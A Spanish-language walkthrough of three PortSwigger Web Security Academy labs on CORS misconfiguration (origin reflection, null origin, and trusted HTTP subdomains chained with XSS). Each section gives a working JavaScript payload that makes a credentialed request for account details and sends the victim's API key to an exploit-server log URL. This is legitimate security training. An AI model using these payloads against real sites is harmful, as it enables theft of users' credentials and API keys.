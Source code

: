 # Cross-origin resource sharing (CORS)

## Lab: CORS vulnerability with basic origin reflection

### Enunciado

Este sitio web tiene una configuración CORS insegura, ya que confía en todos los orígenes. Crea un código JavaScript que use CORS para obtener la clave API del administrador y súbelo a tu servidor de exploits. El laboratorio se considera resuelto cuando logres enviar con éxito la clave API del administrador.

Puedes iniciar sesión en tu propia cuenta con las siguientes credenciales:

* **Usuario:** `wiener`
* **Contraseña:** `peter`

### Resolución

Nos logueamos. Vemos la petición de los detalles del usuario.

<figure><img src="../../.gitbook/assets/image (1514).png" alt=""><figcaption></figcaption></figure>

Vemos que se encuentra la cabecera **Access-Control-Allow-Credentials** que es vulnerable a CORS. Añadimos la cabecera **Origin**.

<figure><img src="../../.gitbook/assets/image (1515).png" alt=""><figcaption></figcaption></figure>

Sabiendo esto realizamos este script para enviarlo a la víctima.

```
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://0a6b006e0413a15d83e2e31b00e70026.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
      location='/log?key='+this.responseText;
  };
</script>

```

Viendo los logs vemos que una petición al enviarle a la víctima que decodificamos.

<figure><img src="../../.gitbook/assets/image (1516).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1517).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado la API.

<figure><img src="../../.gitbook/assets/image (1518).png" alt=""><figcaption></figcaption></figure>

## Lab: CORS vulnerability with trusted null origin

### Enunciado

Este sitio web tiene una configuración CORS insegura, ya que confía en el origen "null". Crea un código JavaScript que use CORS para obtener la clave API del administrador y súbelo a tu servidor de exploits. El laboratorio se considera resuelto cuando logres enviar con éxito la clave API del administrador.

Puedes iniciar sesión en tu propia cuenta con las siguientes credenciales:

* **Usuario:** `wiener`
* **Contraseña:** `peter`

### Resolución

Nos logueamos. Vemos la petición de los detalles del usuario.

<figure><img src="../../.gitbook/assets/image (1519).png" alt=""><figcaption></figcaption></figure>

Vemos que se encuentra la cabecera **Access-Control-Allow-Credentials** que es vulnerable a CORS. Añadimos la cabecera **Origin**.

<figure><img src="../../.gitbook/assets/image (1520).png" alt=""><figcaption></figcaption></figure>

Vemos que no está permitido el acceso desde **test.com**. Tras esto lo cambiamos a **null** el **Origin**.

<figure><img src="../../.gitbook/assets/image (1521).png" alt=""><figcaption></figcaption></figure>

Vemos que ahora sí que hay acceso a nulos. Sabiendo esto realizamos el script.

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://0a47008e03322d42809f12540004005c.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
      location='https://exploit-0afe000e03de2d7f80ef1117010800cb.exploit-server.net/exploit/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

Viendo los logs vemos que una petición al enviarle a la víctima que decodificamos.

<figure><img src="../../.gitbook/assets/image (1522).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1523).png" alt=""><figcaption></figcaption></figure>

## Lab: CORS vulnerability with trusted insecure protocols

### Enunciado

Este sitio web tiene una configuración CORS insegura que confía en todos los subdominios sin importar el protocolo. Crea un código JavaScript que aproveche CORS para obtener la clave API del administrador y súbelo a tu servidor de explotación. El laboratorio se considerará resuelto cuando envíes correctamente la clave API del administrador.

Puedes iniciar sesión en tu propia cuenta con las siguientes credenciales:

* **Usuario:** `wiener`
* **Contraseña:** `peter`

### Resolución

Nos logueamos y vemos la siguiente petición como en los anteriores laboratorios.

<figure><img src="../../.gitbook/assets/image (1561).png" alt=""><figcaption></figcaption></figure>

Ponemos un **Origin** aleatorio.

<figure><img src="../../.gitbook/assets/image (1562).png" alt=""><figcaption></figcaption></figure>

El encabezado de respuesta no refleja nuestro host en **Origin**. En el enunciado nos dice que este sitio web tiene una configuración CORS insegura, ya que confía en todos los subdominios sin importar el protocolo. Esto significa que el sitio tiene en su lista blanca un subdominio de confianza que usa HTTP sin cifrar.

<figure><img src="../../.gitbook/assets/image (1563).png" alt=""><figcaption></figcaption></figure>

Cuando hago clic en el botón **"Check stock"**, se abrió **otra ventana** que apunta a:

```
https://stock.0afb00e904f995b4802b03f200f60064.web-security-academy.net/?productId=1&storeId=1
```

Este es un **subdominio** de `0afb00e904f995b4802b03f200f60064.web-security-academy.net`. Además, **el parámetro `productId` es vulnerable a XSS.**

<figure><img src="../../.gitbook/assets/image (1564).png" alt=""><figcaption></figcaption></figure>

Sabiendo esto realizamos el siguiente script enviándoselo a la víctima.

```
<script>
    document.location="http://stock.0afb00e904f995b4802b03f200f60064.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0afb00e904f995b4802b03f200f60064.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0aaa0009045f95fa805e02c9011c00c9.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

<figure><img src="../../.gitbook/assets/image (1565).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1566).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1567).png" alt=""><figcaption></figcaption></figure>
